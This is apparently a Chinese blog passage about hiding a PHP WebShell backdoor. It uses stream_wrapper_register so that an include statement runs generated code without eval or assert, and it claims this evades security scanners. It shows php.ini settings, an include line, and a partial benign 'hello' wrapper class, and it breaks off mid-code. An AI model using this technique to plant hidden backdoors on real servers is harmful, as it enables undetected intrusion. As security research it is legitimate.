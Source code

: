 ## 0x00 前言

在Web安全领域WebShell的构造与查杀是永不停息的话题，这几天发现了一种新型方式生成WebShell，隐蔽度高，目前安全查杀软件没法检测到相关的后门漏洞，不同于 `eval` 或则 `asset` 等方式运行后门，对于这两个函数禁用的情况下一样适用，目前除了禁用相关函数还暂时没有相关方式来避免漏洞。

## 0x01 后门原理

在PHP开发中，我们使用最为频繁的指令大概就是 `include` 指令， `include` 指令中一些比较普通的文件包含漏洞我们就忽略了，先来看看一串代码：

```
include 'http://www.test.com/code.php'

```

我们通过这一串代码可以很容易的引用外部的PHP程序，但是前提是配置文件允许该行为被执行，先看看我的配置项

```
;;;;;;;;;;;;;;;;;;
; Fopen wrappers ;
;;;;;;;;;;;;;;;;;;

; Whether to allow the treatment of URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-fopen
allow_url_fopen =Off

; Whether to allow include/require to open URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-include
allow_url_include = Off

```

从配置文件可以看到，`allow_url_include` 被我关闭了，也就是包含远程代码是不可能执行的，但是我们这里利用了一个东西。`http://` 流，我们知道，在PHP中很多东西都是可以通过流包装器来使用的，比如常见的 `php://` 流，我们可以通过 `php://input` 来获取输入流来读取请求体的内容，那么根据这个思路，我们能不能通过流包装器来实现代码执行？**答案是可行的** 通过PHP函数 `stream_wrapper_register` 注册包装器，检测特定的URL包装功能，监控 `include` 流，在 `include` 流中动态生成PHP代码，我将通过如下代码执行一个 `hello world` 程序来证明这个过程

```
include 'hello://dxkite';

```

### Hello Stream Wrapper 的实现

```
<?php

class HelloStream
{
    protected $position;
    protected $code;

    public function stream_open($path, $mode, $options, &$opened_path)
    { 
        $url = parse_url($path);
        $name = $url["host"];
        $this->code = "<?php echo 'hello, {$name}';";
        $this->position = 0;
        return true;
    }

    public function stream_read($count)
    {
        $ret = substr($this->code, $this->position, $count);
        $this->position += strlen($ret);
        return $ret;
    }

```